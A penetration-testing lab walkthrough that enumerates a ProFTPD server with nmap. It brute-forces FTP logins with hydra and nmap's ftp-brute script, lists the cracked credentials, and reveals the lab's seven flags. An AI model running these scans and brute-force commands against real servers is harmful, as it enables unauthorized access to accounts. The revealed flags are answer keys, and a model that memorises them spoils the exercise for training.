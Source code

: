 # FTP Enum

**`FTP`** (**F**ile **T**ransfer **P**rotocol) - a *client-server* protocol used to transfer files between a network using TCP/UDP connections.

It requires a command channel and a data channel.

Default FTP port is `21`, opened when FTP is activated for sharing data.

```bash
sudo nmap -p21 -sV -sC -O <TARGET_IP>
```

## Lab 1

>  🔬 [ProFTP Recon: Basics](https://attackdefense.pentesteracademy.com/challengedetails?cid=518)
>
>  - Target IP: `192.217.238.3`
>  - Enumeration of [ProFTP](http://www.proftpd.org/) server

```bash
ip -br -c a
```

```bash
eth1@if170718    UP             192.217.238.2/24
```

- Target IP is `192.217.238.3`

```bash
nmap 192.217.238.3
```

```bash
21/tcp open  ftp
```

```bash
nmap -p21 -sV -O 192.217.238.3
```

```bash
21/tcp open  ftp     ProFTPD 1.3.5a
MAC Address: 02:42:C0:D9:EE:03 (Unknown)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 2.6.32 (96%), Linux 3.2 - 4.9 (96%), Linux 2.6.32 - 3.10 (96%), Linux 3.4 - 3.10 (95%), Synology DiskStation Manager 5.2-5644 (95%), Linux 3.1 (95%), Linux 3.2 (95%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (94%), Netgear RAIDiator 4.2.28 (94%), Linux 2.6.32 - 2.6.35 (94%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 1 hop
Service Info: OS: Unix
```

![nmap -p21](.gitbook/assets/image-20230215114930223.png)

> 📌 FTP server version `ProFTPD 1.3.5a`.

### [ftp](https://linux.die.net/man/1/ftp)

- Try `anonymous:anonymous` login

```bash
ftp 192.217.238.3
# anonymous login failed
```

- Use `hydra` with some users/passwords word lists to check if any credentials work with the ftp server 

```bash
hydra -L /usr/share/metasploit-framework/data/wordlists/common_users.txt -P /usr/share/metasploit-framework/da
ta/wordlists/unix_passwords.txt 192.217.238.3 -t 4 ftp
```

```bash
[DATA] max 16 tasks per 1 server, overall 16 tasks, 7063 login tries (l:7/p:1009), ~442 tries per task
[DATA] attacking ftp://192.217.238.3:21/
[21][ftp] host: 192.217.238.3   login: sysadmin   password: 654321
[21][ftp] host: 192.217.238.3   login: rooty   password: qwerty
[21][ftp] host: 192.217.238.3   login: demo   password: butterfly
[21][ftp] host: 192.217.238.3   login: auditor   password: chocolate
[21][ftp] host: 192.217.238.3   login: anon   password: purple
[21][ftp] host: 192.217.238.3   login: administrator   password: tweety
[21][ftp] host: 192.217.238.3   login: diag   password: tigger
1 of 1 target successfully completed, 7 valid passwords found
```

![hydra user:password attack](.gitbook/assets/image-20230215115946164.png)

> 📌 Found credentials are:
>
> `sysadmin:654321`
> `rooty:qwerty`
> `demo:butterfly`
> `auditor:chocolate`
> `anon:purple`
> `administrator:tweety`
> `diag:tigger`

- Use [nmap ftp-brute script](https://nmap.org/nsedoc/scripts/ftp-brute.html) to find the `sysadmin`'s password

```bash
echo "sysadmin" > users
```

```bash
nmap --script ftp-brute --script-args userdb=/root/users -p21 192.217.238.3
```

```bash
21/tcp open  ftp
| ftp-brute: 
|   Accounts: 
|     sysadmin:654321 - Valid credentials
|_  Statistics: Performed 23 guesses in 6 seconds, average tps: 3.8
```

- Extract the 7 flags hidden on the server by logging in to the `ftp` server with each found user

```bash
ftp 192.217.238.3
```

```
ftp> ls
ftp> get secret.txt
ftp> exit

root@attackdefense:~# cat secret.txt 
```

<details>
<summary>Reveal Flag - sysadmin flag is: 🚩</summary>

`260ca9dd8a4577fc00b7bd5810298076`

</details>

<details>
<summary>Reveal Flag - rooty flag is: 🚩</summary>

`e529a9cea4a728eb9c5828b13b22844c`

</details>

<details>
<summary>Reveal Flag - demo flag is: 🚩</summary>

`d6a6bc0db10694a2d90e3a69648f3a03`

</details>

<details>
<summary>Reveal Flag - auditor flag is: 🚩</summary>

`098f6bcd4621d373cade4e832627b4f6`

</details>

<details>
<summary>Reveal Flag - anon flag is: 🚩</summary>

`1bc29b36f623ba82aaf6724fd3b16718`

</details>

<details>
<summary>Reveal Flag - administrator flag is: 🚩</summary>

`21232f297a57a5a743894a0e4a801fc3`

</details>

<details>
<summary>Reveal Flag - diag flag is: 🚩</summary>

`12a032ce9179c32a6c7ab397b9d871fa`

</details>

